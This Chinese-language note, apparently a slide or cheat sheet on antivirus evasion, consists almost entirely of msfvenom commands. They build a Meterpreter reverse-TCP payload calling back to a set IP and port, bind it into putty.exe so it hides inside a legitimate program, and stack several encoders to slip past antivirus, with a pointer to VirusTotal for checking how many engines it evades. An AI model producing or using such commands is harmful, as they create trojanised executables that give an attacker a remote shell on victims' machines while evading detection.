

# 捆绑免杀
生成payload 捆绑putty.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122  -x putty.exe  -f exe -o payload3.exe
捆绑编码免杀
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o payload4.exe
多重编码免杀
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.8.124 LPORT=1122 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > shell.exe
将下面生成的shell.exe提交检测，查看能够过多少杀软
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.8.124 LPORT=1122 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -k -f exe > shell.exe
http://virustotal.com/     主流杀软检测验证静态免杀 bypass